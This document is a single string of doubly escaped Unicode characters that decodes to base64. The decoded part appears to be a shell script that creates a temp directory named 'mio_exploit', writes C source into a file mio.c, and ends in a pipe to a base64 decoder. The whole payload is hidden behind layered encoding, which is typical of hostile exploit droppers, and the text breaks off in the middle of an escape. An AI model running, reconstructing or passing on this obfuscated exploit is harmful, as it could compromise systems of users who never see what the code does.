\u0033\u005c\u0075\u0030\u0030\u0035\u0032\u005c\u0075\u0030\u0030\u0037\u0034\u005c\u0075\u0030\u0030\u0036\u0033\u005c\u0075\u0030\u0030\u0034\u0033\u005c\u0075\u0030\u0030\u0033\u0039\u005c\u0075\u0030\u0030\u0037\u0034\u005c\u0075\u0030\u0030\u0036\u0031\u005c\u0075\u0030\u0030\u0035\u0037\u005c\u0075\u0030\u0030\u0033\u0039\u005c\u0075\u0030\u0030\u0036\u0036\u005c\u0075\u0030\u0030\u0035\u0061\u005c\u0075\u0030\u0030\u0035\u0038\u005c\u0075\u0030\u0030\u0036\u0038\u005c\u0075\u0030\u0030\u0037\u0037\u005c\u0075\u0030\u0030\u0036\u0032\u005c\u0075\u0030\u0030\u0034\u0037\u005c\u0075\u0030\u0030\u0033\u0039\u005c\u0075\u0030\u0030\u0037\u0030\u005c\u0075\u0030\u0030\u0036\u0034\u005c\u0075\u0030\u0030\u0034\u0033\u005c\u0075\u0030\u0030\u0033\u0035\u005c\u0075\u0030\u0030\u0035\u0039\u005c\u0075\u0030\u0030\u0035\u0037\u005c\u0075\u0030\u0030\u0034\u0036\u005c\u0075\u0030\u0030\u0036\u0038\u005c\u0075\u0030\u0030\u0035\u0039\u005c\u0075\u0030\u0030\u0035\u0037\u005c\u0075\u0030\u0030\u0034\u0036\u005c\u0075\u0030\u0030\u0036\u0037\u005c\u0075\u0030\u0030\u0037\u0030\u005c\u0075\u0030\u0030\u0034\u0033\u005c\u0075\u0030\u0030\u0036\u0064\u005c\u0075\u0030\u0030\u0034\u0065\u005c\u0075\u0030\u0030\u0036\u0062\u005c\u0075\u0030\u0030\u0034\u0039\u005c\u0075\u0030\u0030\u0034\u0033\u005c\u0075\u0030\u0030\u0034\u0039\u005c\u0075\u0030\u0030\u0036\u0062\u005c\u0075\u0030\u0030\u0036\u0035\u005c\u0075\u0030\u0030\u0033\u0031\u005c\u0075\u0030\u0030\u0034\u0065\u005c\u0075\u0030\u0030\u0035\u0035\u005c\u0075\u0030\u0030\u0035\u0031\u005c\u0075\u0030\u0030\u0035\u0035\u005c\u0075\u0030\u0030\u0036\u0034\u005c\u0075\u0030\u0030\u0034\u0036\u005c\u0075\u0030\u0030\u0035\u0030\u005c\u0075\u0030\u0030\u0033\u0033\u005c\u0075\u0030\u0030\u0033\u0030\u005c\u0075\u0030\u0030\u0036\u0039\u005c\u0075\u0030\u0030\u0034\u0039\u005c\u0075\u0030\u0030\u0034\u0038\u005c\u0075\u0030\u0030\u0037\u0038\u005c\u0075\u0030\u0030\u0033\u0038\u005c\u0075\u0030\u0030\u0034\u0039\u005c\u0075\u0030\u0030\u0034\u0037\u005c\u0075\u0030\u0030\u0035\u0036\u005c\u0075\u0030\u0030\u0033\u0034\u005c\u0075\u0030\u0030\u0036\u0031\u005c\u0075\u0030\u0030\u0035\u0038\u005c\u0075\u0030\u0030\u0035\u0031\u005c\u0075\u0030\u0030\u0036\u0037\u005c\u0075\u0030\u0030\u0034\u0064\u005c\u0075\u0030\u0030\u0035\u0031\u005c\u0075\u0030\u0030\u0037\u0030\u005c\u0075\u0030\u0030\u0036\u0061\u005c\u0075\u0030\u0030\u0035\u0039\u005c\u0075\u0030\u0030\u0035\u0038\u005c\u0075\u0030\u0030\u0035\u0031\u005c\u0075\u0030\u0030\u0036\u0037\u005c\u0075\u0030\u0030\u0035\u0030\u005c\u0075\u0030\u0030\u0036\u0039\u005c\u0075\u0030\u0030\u0034\u0032\u005c\u0075\u0030\u0030\u0037\u0034\u005c\u0075\u0030\u0030\u0036\u0031\u005c\u0075\u0030\u0030\u0035\u0037\u005c\u0075\u0030\u0030\u0033\u0038\u005c\u0075\u0030\u0030\u0037\u0035\u005c\u0075\u0030\u0030\u0035\u0039\u005c\u0075\u0030\u0030\u0037\u0061\u005c\u0075\u0030\u0030\u0037\u0037\u005c\u0075\u0030\u0030\u0033\u0038\u005c\u0075\u0030\u0030\u0035\u0032\u005c\u0075\u0030\u0030\u0035\u0035\u005c\u0075\u0030\u0030\u0033\u0039\u005c\u0075\u0030\u0030\u0034\u0037\u005c\u0075\u0030\u0030\u0034\u0033\u005c\u0075\u0030\u0030\u0036\u0039\u005c\u0075\u0030\u0030\u0034\u0065\u005c\u0075\u0030\u0030\u0037\u0030\u005c\u0075\u0030\u0030\u0036\u0032\u005c\u0075\u0030\u0030\u0036\u0064\u005c\u0075\u0030\u0030\u0034\u0065\u005c\u0075\u0030\u0030\u0037\u0033\u005c\u0075\u0030\u0030\u0036\u0034\u005c\u0075\u0030\u0030\u0035\u0037\u005c\u0075\u0030\u0030\u0035\u0032\u005c\u0075\u0030\u0030\u0036\u0063\u005c\u0075\u0030\u0030\u0034\u0039\u005c\u0075\u0030\u0030\u0034\u0034\u005c\u0075\u0030\u0030\u0037\u0038\u005c\u0075\u0030\u0030\u0037\u0061\u005c\u0075\u0030\u0030\u0036\u0034\u005c\u0075\u0030\u0030\u0034\u0037\u005c\u0075\u0030\u0030\u0035\u0032\u005c\u0075\u0030\u0030\u0037\u0033\u005c\u0075\u0030\u0030\u0036\u0031\u005c\u0075\u0030\u0030\u0035\u0037\u005c\u0075\u0030\u0030\u0034\u0039\u005c\u0075\u0030\u0030\u0037\u0035\u005c\u0075\u0030\u0030\u0036\u0031\u005c\u0075\u0030\u0030\u0034\u0034\u005c\u0075\u0030\u0030\u0033\u0034\u005c\u0075\u0030\u0030\u0034\u0062\u005c\u0075\u0030\u0030\u0034\u0039\u005c\u0075\u0030\u0030\u0033\u0032\u005c\u0075\u0030\u0030\u0036\u0063\u005c\u0075\u0030\u0030\u0037\u0035\u005c\u0075\u0030\u0030\u0035\u0039\u005c\u0075\u0030\u0030\u0033\u0032\u005c\u0075\u0030\u0030\u0037\u0038\u005c\u0075\u0030\u0030\u0033\u0031\u005c\u0075\u0030\u0030\u0035\u0061\u005c\u0075\u0030\u0030\u0034\u0037\u005c\u0075\u0030\u0030\u0035\u0035\u005c\u0075\u0030\u0030\u0036\u0037\u005c\u0075\u0030\u0030\u0035\u0030\u005c\u0075\u0030\u0030\u0034\u0038\u005c\u0075\u0030\u0030\u0035\u0036\u005c\u0075\u0030\u0030\u0037\u0035\u005c\u0075\u0030\u0030\u0036\u0031\u005c\u0075\u0030\u0030\u0035\u0038\u005c\u0075\u0030\u0030\u0034\u0065\u005c\u0075\u0030\u0030\u0033\u0030\u005c\u0075\u0030\u0030\u0035\u0061\u005c\u0075\u0030\u0030\u0034\u0033\u005c\u0075\u0030\u0030\u0033\u0035\u005c\u0075\u0030\u0030\u0036\u0066\u005c\u0075\u0030\u0030\u0035\u0030\u005c\u0075\u0030\u0030\u0036\u0037\u005c\u0075\u0030\u0030\u0037\u0030\u005c\u0075\u0030\u0030\u0036\u0036\u005c\u0075\u0030\u0030\u0035\u0038\u005c\u0075\u0030\u0030\u0033\u0032\u005c\u0075\u0030\u0030\u0034\u0036\u005c\u0075\u0030\u0030\u0033\u0030\u005c\u0075\u0030\u0030\u0036\u0034\u005c\u0075\u0030\u0030\u0034\u0038\u005c\u0075\u0030\u0030\u0034\u0061\u005c\u0075\u0030\u0030\u0037\u0030\u005c\u0075\u0030\u0030\u0035\u0039\u005c\u0075\u0030\u0030\u0036\u0065\u005c\u0075\u0030\u0030\u0035\u0036\u005c\u0075\u0030\u0030\u0033\u0030\u005c\u0075\u0030\u0030\u0035\u0061\u005c\u0075\u0030\u0030\u0035\u0036\u005c\u0075\u0030\u0030\u0033\u0039\u005c\u0075\u0030\u0030\u0036\u0036\u005c\u0075\u0030\u0030\u0034\u0062\u005c\u0075\u0030\u0030\u0034\u0033\u005c\u0075\u0030\u0030\u0036\u0038\u005c\u0075\u0030\u0030\u0036\u0061\u005c\u0075\u0030\u0030\u0036\u0032\u005c\u0075\u0030\u0030\u0033\u0032\u005c\u0075\u0030\u0030\u0033\u0035\u005c\u0075\u0030\u0030\u0037\u0061\u005c\u0075\u0030\u0030\u0036\u0034\u005c\u0075\u0030\u0030\u0034\u0038\u005c\u0075\u0030\u0030\u0034\u0061\u005c\u0075\u0030\u0030\u0033\u0031\u005c\u0075\u0030\u0030\u0035\u0039\u005c\u0075\u0030\u0030\u0033\u0033\u005c\u0075\u0030\u0030\u0035\u0032\u005c\u0075\u0030\u0030\u0037\u0036\u005c\u0075\u0030\u0030\u0036\u0033\u005c\u0075\u0030\u0030\u0036\u0039\u005c\u0075\u0030\u0030\u0036\u0062\u005c\u0075\u0030\u0030\u0037\u0030\u005c\u0075\u0030\u0030\u0034\u0039\u005c\u0075\u0030\u0030\u0034\u0038\u005c\u0075\u0030\u0030\u0035\u0061\u005c\u0075\u0030\u0030\u0037\u0036\u005c\u0075\u0030\u0030\u0036\u0031\u005c\u0075\u0030\u0030\u0035\u0037\u005c\u0075\u0030\u0030\u0035\u0031\u005c\u0075\u0030\u0030\u0036\u0037\u005c\u0075\u0030\u0030\u0036\u0032\u005c\u0075\u0030\u0030\u0035\u0037\u005c\u0075\u0030\u0030\u0036\u0063\u005c\u0075\u0030\u0030\u0037\u0036\u005c\u0075\u0030\u0030\u0035\u0038\u005c\u0075\u0030\u0030\u0033\u0032\u005c\u0075\u0030\u0030\u0036\u0063\u005c\u0075\u0030\u0030\u0037\u0035\u005c\u0075\u0030\u0030\u0036\u0031\u005c\u0075\u0030\u0030\u0035\u0038\u005c\u0075\u0030\u0030\u0035\u0031\u005c\u0075\u0030\u0030\u0036\u0066\u005c\u0075\u0030\u0030\u0036\u0034\u005c\u0075\u0030\u0030\u0036\u0064\u005c\u0075\u0030\u0030\u0033\u0039\u005c\u0075\u0030\u0030\u0037\u0030\u005c\u0075\u0030\u0030\u0035\u0061\u005c\u0075\u0030\u0030\u0034\u0033\u005c\u0075\u0030\u0030\u0036\u0062\u005c\u0075\u0030\u0030\u0036\u0037\u005c\u0075\u0030\u0030\u0036\u0035\u005c\u0075\u0030\u0030\u0037\u0037\u005c\u0075\u0030\u0030\u0036\u0066\u005c\u0075\u0030\u0030\u0036\u0037\u005c\u0075\u0030\u0030\u0034\u0039\u005c\u0075\u0030\u0030\u0034\u0033\u005c\u0075\u0030\u0030\u0034\u0031\u005c\u0075\u0030\u0030\u0036\u0037\u005c\u0075\u0030\u0030\u0036\u0033\u005c\u0075\u0030\u0030\u0033\u0032\u005c\u0075\u0030\u0030\u0035\u0036\u005c\u0075\u0030\u0030\u0033\u0030\u005c\u0075\u0030\u0030\u0036\u0033\u005c\u0075\u0030\u0030\u0036\u0064\u005c\u0075\u0030\u0030\u0035\u0036\u005c\u0075\u0030\u0030\u0033\u0031\u005c\u0075\u0030\u0030\u0036\u0031\u005c\u0075\u0030\u0030\u0035\u0037\u005c\u0075\u0030\u0030\u0035\u0031\u005c\u0075\u0030\u0030\u0036\u0066\u005c\u0075\u0030\u0030\u0034\u0064\u005c\u0075\u0030\u0030\u0034\u0033\u005c\u0075\u0030\u0030\u0037\u0037\u005c\u0075\u0030\u0030\u0037\u0037\u005c\u0075\u0030\u0030\u0034\u0062\u005c\u0075\u0030\u0030\u0035\u0034\u005c\u0075\u0030\u0030\u0037\u0033\u005c\u0075\u0030\u0030\u0034\u0062\u005c\u0075\u0030\u0030\u0034\u0039\u005c\u0075\u0030\u0030\u0034\u0033\u005c\u0075\u0030\u0030\u0034\u0031\u005c\u0075\u0030\u0030\u0036\u0037\u005c\u0075\u0030\u0030\u0034\u0039\u005c\u0075\u0030\u0030\u0034\u0038\u005c\u0075\u0030\u0030\u0034\u0065\u005c\u0075\u0030\u0030\u0036\u0063\u005c\u0075\u0030\u0030\u0036\u0034\u005c\u0075\u0030\u0030\u0034\u0038\u005c\u0075\u0030\u0030\u0034\u0061\u005c\u0075\u0030\u0030\u0036\u0063\u005c\u0075\u0030\u0030\u0035\u0061\u005c\u0075\u0030\u0030\u0033\u0032\u005c\u0075\u0030\u0030\u0036\u0063\u005c\u0075\u0030\u0030\u0036\u0062\u005c\u0075\u0030\u0030\u0034\u0062\u005c\u0075\u0030\u0030\u0034\u0034\u005c\u0075\u0030\u0030\u0034\u0031\u005c\u0075\u0030\u0030\u0037\u0033\u005c\u0075\u0030\u0030\u0034\u0064\u005c\u0075\u0030\u0030\u0034\u0033\u005c\u0075\u0030\u0030\u0036\u0062\u005c\u0075\u0030\u0030\u0033\u0037\u005c\u0075\u0030\u0030\u0034\u0033\u005c\u0075\u0030\u0030\u0036\u0039\u005c\u0075\u0030\u0030\u0034\u0031\u005c\u0075\u0030\u0030\u0036\u0037\u005c\u0075\u0030\u0030\u0034\u0039\u005c\u0075\u0030\u0030\u0034\u0033\u005c\u0075\u0030\u0030\u0034\u0032\u005c\u0075\u0030\u0030\u0036\u0061\u005c\u0075\u0030\u0030\u0036\u0031\u005c\u0075\u0030\u0030\u0034\u0037\u005c\u0075\u0030\u0030\u0035\u0032\u005c\u0075\u0030\u0030\u0037\u0030\u005c\u0075\u0030\u0030\u0036\u0033\u005c\u0075\u0030\u0030\u0036\u0039\u005c\u0075\u0030\u0030\u0036\u0037\u005c\u0075\u0030\u0030\u0036\u0039\u005c\u0075\u0030\u0030\u0034\u0063\u005c\u0075\u0030\u0030\u0037\u0039\u005c\u0075\u0030\u0030\u0034\u0039\u005c\u0075\u0030\u0030\u0037\u0030\u005c\u0075\u0030\u0030\u0034\u0066\u005c\u0075\u0030\u0030\u0037\u0037\u005c\u0075\u0030\u0030\u0036\u0066\u005c\u0075\u0030\u0030\u0036\u0037\u005c\u0075\u0030\u0030\u0034\u0039\u005c\u0075\u0030\u0030\u0034\u0033\u005c\u0075\u0030\u0030\u0034\u0031\u005c\u0075\u0030\u0030\u0036\u0037\u005c\u0075\u0030\u0030\u0035\u0061\u005c\u0075\u0030\u0030\u0035\u0038\u005c\u0075\u0030\u0030\u0036\u0038\u005c\u0075\u0030\u0030\u0036\u0063\u005c\u0075\u0030\u0030\u0035\u0039\u005c\u0075\u0030\u0030\u0033\u0032\u005c\u0075\u0030\u0030\u0037\u0037\u005c\u0075\u0030\u0030\u0036\u0066\u005c\u0075\u0030\u0030\u0034\u0039\u005c\u0075\u0030\u0030\u0036\u0039\u005c\u0075\u0030\u0030\u0033\u0039\u005c\u0075\u0030\u0030\u0036\u0039\u005c\u0075\u0030\u0030\u0036\u0031\u005c\u0075\u0030\u0030\u0035\u0037\u005c\u0075\u0030\u0030\u0033\u0034\u005c\u0075\u0030\u0030\u0037\u0036\u005c\u0075\u0030\u0030\u0036\u0033\u005c\u0075\u0030\u0030\u0033\u0032\u005c\u0075\u0030\u0030\u0036\u0037\u005c\u0075\u0030\u0030\u0036\u0039\u005c\u0075\u0030\u0030\u0034\u0063\u005c\u0075\u0030\u0030\u0034\u0033\u005c\u0075\u0030\u0030\u0034\u0031\u005c\u0075\u0030\u0030\u0036\u0039\u005c\u0075\u0030\u0030\u0036\u0033\u005c\u0075\u0030\u0030\u0033\u0032\u005c\u0075\u0030\u0030\u0036\u0037\u005c\u0075\u0030\u0030\u0036\u0039\u005c\u0075\u0030\u0030\u0034\u0063\u005c\u0075\u0030\u0030\u0034\u0033\u005c\u0075\u0030\u0030\u0034\u0031\u005c\u0075\u0030\u0030\u0036\u0039\u005c\u0075\u0030\u0030\u0034\u0063\u005c\u0075\u0030\u0030\u0035\u0037\u005c\u0075\u0030\u0030\u0034\u0064\u005c\u0075\u0030\u0030\u0036\u0039\u005c\u0075\u0030\u0030\u0034\u0063\u005c\u0075\u0030\u0030\u0034\u0033\u005c\u0075\u0030\u0030\u0034\u0031\u005c\u0075\u0030\u0030\u0036\u0039\u005c\u0075\u0030\u0030\u0035\u0039\u005c\u0075\u0030\u0030\u0033\u0032\u005c\u0075\u0030\u0030\u0034\u0036\u005c\u0075\u0030\u0030\u0033\u0030\u005c\u0075\u0030\u0030\u0034\u0039\u005c\u0075\u0030\u0030\u0034\u0033\u005c\u0075\u0030\u0030\u0033\u0039\u005c\u0075\u0030\u0030\u0036\u0064\u005c\u0075\u0030\u0030\u0036\u0032\u005c\u0075\u0030\u0030\u0034\u0037\u005c\u0075\u0030\u0030\u0034\u0036\u005c\u0075\u0030\u0030\u0036\u0065\u005c\u0075\u0030\u0030\u0034\u0039\u005c\u0075\u0030\u0030\u0034\u0034\u005c\u0075\u0030\u0030\u0033\u0034\u005c\u0075\u0030\u0030\u0036\u0037\u005c\u0075\u0030\u0030\u0034\u0063\u005c\u0075\u0030\u0030\u0033\u0033\u005c\u0075\u0030\u0030\u0035\u0032\u005c\u0075\u0030\u0030\u0037\u0034\u005c\u0075\u0030\u0030\u0036\u0033\u005c\u0075\u0030\u0030\u0034\u0033\u005c\u0075\u0030\u0030\u0033\u0039\u005c\u0075\u0030\u0030\u0036\u0064\u005c\u0075\u0030\u0030\u0036\u0032\u005c\u0075\u0030\u0030\u0034\u0037\u005c\u0075\u0030\u0030\u0034\u0036\u005c\u0075\u0030\u0030\u0036\u0065\u005c\u0075\u0030\u0030\u0034\u0039\u005c\u0075\u0030\u0030\u0034\u0033\u005c\u0075\u0030\u0030\u0034\u0039\u005c\u0075\u0030\u0030\u0037\u0033\u005c\u0075\u0030\u0030\u0034\u0039\u005c\u0075\u0030\u0030\u0034\u0035\u005c\u0075\u0030\u0030\u0033\u0035\u005c\u0075\u0030\u0030\u0035\u0036\u005c\u0075\u0030\u0030\u0035\u0034\u005c\u0075\u0030\u0030\u0034\u0035\u005c\u0075\u0030\u0030\u0037\u0037\u005c\u0075\u0030\u0030\u0037\u0030\u005c\u0075\u0030\u0030\u0034\u0066\u005c\u0075\u0030\u0030\u0037\u0037\u005c\u0075\u0030\u0030\u0037\u0030\u005c\u0075\u0030\u0030\u0033\u0039\u005c\u0075\u0030\u0030\u0034\u0033\u005c\u0075\u0030\u0030\u0036\u0062\u005c\u0075\u0030\u0030\u0035\u0036\u005c\u0075\u0030\u0030\u0035\u0030\u005c\u0075\u0030\u0030\u0035\u0032\u005c\u0075\u0030\u0030\u0036\u0037\u005c\u0075\u0030\u0030\u0037\u0030\u005c\u0075\u0030\u0030\u0037\u0034\u005c\u0075\u0030\u0030\u0036\u0031\u005c\u0075\u0030\u0030\u0033\u0032\u005c\u0075\u0030\u0030\u0035\u0032\u005c\u0075\u0030\u0030\u0037\u0030\u005c\u0075\u0030\u0030\u0036\u0033\u005c\u0075\u0030\u0030\u0036\u0039\u005c\u0075\u0030\u0030\u0034\u0031\u005c\u0075\u0030\u0030\u0037\u0034\u005c\u0075\u0030\u0030\u0036\u0033\u005c\u0075\u0030\u0030\u0034\u0033\u005c\u0075\u0030\u0030\u0034\u0032\u005c\u0075\u0030\u0030\u0037\u0034\u005c\u0075\u0030\u0030\u0036\u0031\u005c\u0075\u0030\u0030\u0035\u0037\u005c\u0075\u0030\u0030\u0033\u0039\u005c\u0075\u0030\u0030\u0036\u0036\u005c\u0075\u0030\u0030\u0036\u0033\u005c\u0075\u0030\u0030\u0036\u0064\u005c\u0075\u0030\u0030\u0033\u0039\u005c\u0075\u0030\u0030\u0037\u0036\u005c\u0075\u0030\u0030\u0036\u0034\u005c\u0075\u0030\u0030\u0034\u0033\u005c\u0075\u0030\u0030\u0033\u0039\u005c\u0075\u0030\u0030\u0036\u0063\u005c\u0075\u0030\u0030\u0036\u0034\u005c\u0075\u0030\u0030\u0034\u0037\u005c\u0075\u0030\u0030\u0034\u0064\u005c\u0075\u0030\u0030\u0036\u0037\u005c\u0075\u0030\u0030\u0036\u0032\u005c\u0075\u0030\u0030\u0034\u0037\u005c\u0075\u0030\u0030\u0036\u0063\u005c\u0075\u0030\u0030\u0036\u0039\u005c\u0075\u0030\u0030\u0036\u0032\u005c\u0075\u0030\u0030\u0036\u0065\u005c\u0075\u0030\u0030\u0034\u0065\u005c\u0075\u0030\u0030\u0037\u0061\u005c\u0075\u0030\u0030\u0035\u0038\u005c\u0075\u0030\u0030\u0037\u0037\u005c\u0075\u0030\u0030\u0037\u0030\u005c\u0075\u0030\u0030\u0036\u0063\u005c\u0075\u0030\u0030\u0035\u0039\u005c\u0075\u0030\u0030\u0033\u0032\u005c\u0075\u0030\u0030\u0036\u0038\u005c\u0075\u0030\u0030\u0037\u0036\u005c\u0075\u0030\u0030\u0034\u0039\u005c\u0075\u0030\u0030\u0034\u0033\u005c\u0075\u0030\u0030\u0034\u0061\u005c\u0075\u0030\u0030\u0037\u0037\u005c\u0075\u0030\u0030\u0035\u0039\u005c\u0075\u0030\u0030\u0035\u0038\u005c\u0075\u0030\u0030\u0034\u0065\u005c\u0075\u0030\u0030\u0037\u0061\u005c\u0075\u0030\u0030\u0036\u0034\u005c\u0075\u0030\u0030\u0033\u0032\u005c\u0075\u0030\u0030\u0035\u0031\u005c\u0075\u0030\u0030\u0033\u0036\u005c\u0075\u0030\u0030\u0034\u0039\u005c\u0075\u0030\u0030\u0034\u0033\u005c\u0075\u0030\u0030\u0033\u0039\u005c\u0075\u0030\u0030\u0037\u0034\u005c\u0075\u0030\u0030\u0036\u0031\u005c\u0075\u0030\u0030\u0035\u0037\u005c\u0075\u0030\u0030\u0033\u0038\u005c\u0075\u0030\u0030\u0036\u0039\u005c\u0075\u0030\u0030\u0034\u0039\u005c\u0075\u0030\u0030\u0034\u0034\u005c\u0075\u0030\u0030\u0033\u0034\u005c\u0075\u0030\u0030\u0036\u0037\u005c\u0075\u0030\u0030\u0036\u0032\u005c\u0075\u0030\u0030\u0035\u0037\u005c\u0075\u0030\u0030\u0036\u0063\u005c\u0075\u0030\u0030\u0037\u0036\u005c\u0075\u0030\u0030\u0035\u0038\u005c\u0075\u0030\u0030\u0033\u0033\u005c\u0075\u0030\u0030\u0034\u0061\u005c\u0075\u0030\u0030\u0037\u0036\u005c\u0075\u0030\u0030\u0036\u0032\u005c\u0075\u0030\u0030\u0033\u0033\u005c\u0075\u0030\u0030\u0035\u0031\u005c\u0075\u0030\u0030\u0037\u0036\u005c\u0075\u0030\u0030\u0035\u0061\u005c\u0075\u0030\u0030\u0035\u0038\u005c\u0075\u0030\u0030\u0035\u0032\u005c\u0075\u0030\u0030\u0036\u0061\u005c\u0075\u0030\u0030\u0034\u0063\u005c\u0075\u0030\u0030\u0033\u0032\u005c\u0075\u0030\u0030\u0033\u0035\u005c\u0075\u0030\u0030\u0037\u0061\u005c\u0075\u0030\u0030\u0036\u0033\u005c\u0075\u0030\u0030\u0033\u0033\u005c\u0075\u0030\u0030\u0036\u0034\u005c\u0075\u0030\u0030\u0037\u0030\u005c\u0075\u0030\u0030\u0036\u0034\u005c\u0075\u0030\u0030\u0034\u0037\u005c\u0075\u0030\u0030\u0034\u0065\u005c\u0075\u0030\u0030\u0036\u0066\u005c\u0075\u0030\u0030\u0034\u0063\u005c\u0075\u0030\u0030\u0036\u0064\u005c\u0075\u0030\u0030\u0034\u0065\u005c\u0075\u0030\u0030\u0037\u0036\u005c\u0075\u0030\u0030\u0036\u0032\u005c\u0075\u0030\u0030\u0036\u0064\u005c\u0075\u0030\u0030\u0035\u0039\u005c\u0075\u0030\u0030\u0034\u0062\u005c\u0075\u0030\u0030\u0035\u0061\u005c\u0075\u0030\u0030\u0033\u0032\u005c\u0075\u0030\u0030\u0034\u0065\u005c\u0075\u0030\u0030\u0036\u0061\u005c\u0075\u0030\u0030\u0034\u0039\u005c\u0075\u0030\u0030\u0034\u0033\u005c\u0075\u0030\u0030\u0033\u0031\u005c\u0075\u0030\u0030\u0037\u0061\u005c\u0075\u0030\u0030\u0036\u0031\u005c\u0075\u0030\u0030\u0034\u0037\u005c\u0075\u0030\u0030\u0034\u0036\u005c\u0075\u0030\u0030\u0037\u0039\u005c\u0075\u0030\u0030\u0035\u0061\u005c\u0075\u0030\u0030\u0035\u0037\u005c\u0075\u0030\u0030\u0035\u0031\u005c\u0075\u0030\u0030\u0036\u0037\u005c\u0075\u0030\u0030\u0034\u0063\u005c\u0075\u0030\u0030\u0035\u0037\u005c\u0075\u0030\u0030\u0035\u0061\u005c\u0075\u0030\u0030\u0035\u0031\u005c\u0075\u0030\u0030\u0035\u0033\u005c\u0075\u0030\u0030\u0035\u0035\u005c\u0075\u0030\u0030\u0034\u0064\u005c\u0075\u0030\u0030\u0036\u0037\u005c\u0075\u0030\u0030\u0034\u0063\u005c\u0075\u0030\u0030\u0035\u0036\u005c\u0075\u0030\u0030\u0036\u0034\u005c\u0075\u0030\u0030\u0037\u0033\u005c\u0075\u0030\u0030\u0034\u0063\u005c\u0075\u0030\u0030\u0034\u0033\u005c\u0075\u0030\u0030\u0033\u0031\u005c\u0075\u0030\u0030\u0037\u0030\u005c\u0075\u0030\u0030\u0036\u0032\u005c\u0075\u0030\u0030\u0036\u0064\u005c\u0075\u0030\u0030\u0036\u0063\u005c\u0075\u0030\u0030\u0033\u0030\u005c\u0075\u0030\u0030\u0034\u0063\u005c\u0075\u0030\u0030\u0034\u0037\u005c\u0075\u0030\u0030\u0033\u0031\u005c\u0075\u0030\u0030\u0037\u0030\u005c\u0075\u0030\u0030\u0036\u0032\u005c\u0075\u0030\u0030\u0033\u0031\u005c\u0075\u0030\u0030\u0033\u0039\u005c\u0075\u0030\u0030\u0037\u0030\u005c\u0075\u0030\u0030\u0036\u0032\u005c\u0075\u0030\u0030\u0036\u0064\u005c\u0075\u0030\u0030\u0036\u0063\u005c\u0075\u0030\u0030\u0033\u0030\u005c\u0075\u0030\u0030\u0034\u0039\u005c\u0075\u0030\u0030\u0034\u0033\u005c\u0075\u0030\u0030\u0033\u0031\u005c\u0075\u0030\u0030\u0037\u0036\u005c\u0075\u0030\u0030\u0034\u0039\u005c\u0075\u0030\u0030\u0034\u0037\u005c\u0075\u0030\u0030\u0037\u0038\u005c\u0075\u0030\u0030\u0037\u0030\u005c\u0075\u0030\u0030\u0035\u0039\u005c\u0075\u0030\u0030\u0036\u0064\u005c\u0075\u0030\u0030\u0033\u0035\u005c\u0075\u0030\u0030\u0037\u0061\u005c\u0075\u0030\u0030\u0036\u0033\u005c\u0075\u0030\u0030\u0033\u0031\u005c\u0075\u0030\u0030\u0033\u0038\u005c\u0075\u0030\u0030\u0037\u0036\u005c\u0075\u0030\u0030\u0036\u0032\u005c\u0075\u0030\u0030\u0035\u0037\u005c\u0075\u0030\u0030\u0036\u0063\u005c\u0075\u0030\u0030\u0037\u0036\u005c\u0075\u0030\u0030\u0034\u0063\u005c\u0075\u0030\u0030\u0036\u0065\u005c\u0075\u0030\u0030\u0034\u0065\u005c\u0075\u0030\u0030\u0037\u0036\u005c\u0075\u0030\u0030\u0034\u0063\u005c\u0075\u0030\u0030\u0036\u0061\u005c\u0075\u0030\u0030\u0034\u0039\u005c\u0075\u0030\u0030\u0036\u0037\u005c\u0075\u0030\u0030\u0036\u0032\u005c\u0075\u0030\u0030\u0035\u0037\u005c\u0075\u0030\u0030\u0036\u0063\u005c\u0075\u0030\u0030\u0037\u0036\u005c\u0075\u0030\u0030\u0034\u0063\u005c\u0075\u0030\u0030\u0036\u0064\u005c\u0075\u0030\u0030\u0034\u0064\u005c\u0075\u0030\u0030\u0036\u0037\u005c\u0075\u0030\u0030\u0035\u0030\u005c\u0075\u0030\u0030\u0036\u0039\u005c\u0075\u0030\u0030\u0033\u0039\u005c\u0075\u0030\u0030\u0036\u0062\u005c\u0075\u0030\u0030\u0035\u0061\u005c\u0075\u0030\u0030\u0035\u0038\u005c\u0075\u0030\u0030\u0035\u0039\u005c\u0075\u0030\u0030\u0037\u0036\u005c\u0075\u0030\u0030\u0036\u0032\u005c\u0075\u0030\u0030\u0036\u0065\u005c\u0075\u0030\u0030\u0035\u0036\u005c\u0075\u0030\u0030\u0037\u0033\u005c\u0075\u0030\u0030\u0036\u0032\u005c\u0075\u0030\u0030\u0034\u0033\u005c\u0075\u0030\u0030\u0034\u0031\u005c\u0075\u0030\u0030\u0037\u0039\u005c\u0075\u0030\u0030\u0035\u0030\u005c\u0075\u0030\u0030\u0036\u0039\u005c\u0075\u0030\u0030\u0035\u0039\u005c\u0075\u0030\u0030\u0037\u0038\u005c\u0075\u0030\u0030\u0034\u0033\u005c\u0075\u0030\u0030\u0036\u0065\u005c\u0075\u0030\u0030\u0034\u0065\u005c\u0075\u0030\u0030\u0033\u0031\u005c\u0075\u0030\u0030\u0035\u0061\u005c\u0075\u0030\u0030\u0034\u0037\u005c\u0075\u0030\u0030\u0033\u0038\u005c\u0075\u0030\u0030\u0036\u0037\u005c\u0075\u0030\u0030\u0034\u0063\u005c\u0075\u0030\u0030\u0035\u0036\u005c\u0075\u0030\u0030\u0034\u0039\u005c\u0075\u0030\u0030\u0036\u0037\u005c\u0075\u0030\u0030\u0036\u0032\u005c\u0075\u0030\u0030\u0035\u0037\u005c\u0075\u0030\u0030\u0036\u0063\u005c\u0075\u0030\u0030\u0037\u0036\u005c\u0075\u0030\u0030\u0035\u0038\u005c\u0075\u0030\u0030\u0033\u0033\u005c\u0075\u0030\u0030\u0034\u0061\u005c\u0075\u0030\u0030\u0037\u0036\u005c\u0075\u0030\u0030\u0036\u0032\u005c\u0075\u0030\u0030\u0033\u0033\u005c\u0075\u0030\u0030\u0035\u0031\u005c\u0075\u0030\u0030\u0036\u0037\u005c\u0075\u0030\u0030\u0036\u0032\u005c\u0075\u0030\u0030\u0034\u0038\u005c\u0075\u0030\u0030\u0034\u0064\u005c\u0075\u0030\u0030\u0036\u0037\u005c\u0075\u0030\u0030\u0032\u0030\u005c\u0075\u0030\u0030\u0037\u0063\u005c\u0075\u0030\u0030\u0032\u0030\u005c\u0075\u0030\u0030\u0036\u0032\u005c\u0075\u0030\u0030\u0036\u0031\u005c\u0075\u0030\u0030\u0037\u0033\u005c\u0075\u0030\u0030\u0036\u0035\u005c\u0075\u0030\u0030\u0033\u0036\u005c\u0075\u0030\u0030\u0033\u0034\u005c\u0075\u0030\u0030\u0032\u0030\u005c\u0075\u0030\u0030\u0032